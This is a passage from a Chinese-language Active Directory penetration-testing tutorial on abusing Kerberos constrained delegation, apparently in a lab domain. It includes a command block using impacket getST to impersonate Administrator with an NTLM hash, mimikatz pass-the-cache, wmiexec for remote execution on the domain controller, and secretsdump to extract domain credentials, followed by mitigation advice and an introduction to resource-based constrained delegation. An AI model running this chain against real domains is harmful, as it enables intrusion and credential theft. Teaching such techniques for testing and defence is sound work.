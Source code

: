 ![](/assets/images/move/2021-01-22-11-40-49.png)


> WinRM 代表 Windows 远程管理，是一种允许管理员远程执行系统管理任务的服务。通过 HTTP（5985）或 HTTPS SOAP（5986）执行通信，默认情况下支持 Kerberos 和 NTLM 身份验证以及基本身份验证。使用此服务需要管理员级别凭据。

约束委派账户伪造 adnimistrator 账户访问 dc krbtgt 服务，生成 ccache 文件注入内存，效果相当于“黄金票据”：

```powershell
# impacket getST https://github.com/ropnop/impacket_static_binaries
getST.exe -spn cifs/win7.ins.z -impersonate Administrator -hashes :bd3d734cdaec88d806c2f8458eb6c357 -dc-ip 192.168.1.12 ins.z/iis-8$
# mimikatz ptc pass the cache
mimikatz.exe "kerberos::ptc Administrator.ccache" "exit"
# impacket wmiexec
set KRB5CCNAME=Administrator.ccache
wmiexec.exe -no-pass -k administrator@2012dc.ins.z -dc-ip 192.168.1.12
# impacket secretdump
set KRB5CCNAME=Administrator.ccache
secretsdump.exe -no-pass -k 2012dc.ins.z
```

### Mitigation

1. 尽可能禁用 Kerberos 委派。
2. 限制 Domain Admin 登录范围。
3. 为特权帐户设置“帐户敏感，无法委托” / 加入 Protected Group。
4. 提高用户密码复杂度，抵抗 Kerberoasting 攻击。

## 0x03 基于资源的约束委派

### RBCD

微软在 Windows Server 2012 中新加入了基于 kerberos 资源的约束委派(rbcd)，与传统的约束委派相比，它不再需要域管理员对其进行配置，可以直接在机器账户上配置`msDS-AllowedToActOnBehalfOfOtherIdentity` 属性来设置基于资源的约束委派。此属性的作用是控制哪些用户可以模拟成域内任意用户，然后向该计算机进行身份验证。
